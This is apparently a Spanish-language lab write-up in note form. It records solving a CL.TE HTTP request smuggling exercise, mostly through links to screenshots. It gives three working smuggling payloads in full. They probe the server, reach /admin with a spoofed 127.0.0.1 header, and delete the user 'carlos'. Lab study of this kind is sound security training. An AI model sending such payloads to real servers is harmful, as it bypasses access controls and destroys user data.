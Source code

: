![[Pasted image 20230718174244.png]]

![[Pasted image 20230718174302.png]]

![[Pasted image 20230718175938.png]]

![[Pasted image 20230718180005.png]]

![[Pasted image 20230718180203.png]]

cambiando el request:

![[Pasted image 20230718180241.png]]

limpiando y desactivando el update request, tambien agregando el payload 1:

* payload 1:

Content-Type: application/x-www-form-urlencoded
Content-Length: 126
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=anubis

Enviar las veces que sean necesarias hasta obtener el ROMNK IP:

![[Pasted image 20230718180420.png]]

a la cuarta me salio esto:

![[Pasted image 20230718180532.png]]

probando el segundo payload:

* payload 2:

Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1

![[Pasted image 20230718180614.png]]

sustituyyendo el hallazgo:

![[Pasted image 20230718180652.png]]

buscando la coincidencia de /admin:

![[Pasted image 20230718180815.png]]

a la segunda vez obtuve resultados:

![[Pasted image 20230718180840.png]]

probando el tercer payload:

* payload 3:

Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1

![[Pasted image 20230718180947.png]]

a la segunda vez:

![[Pasted image 20230718181017.png]]

![[Pasted image 20230718181038.png]]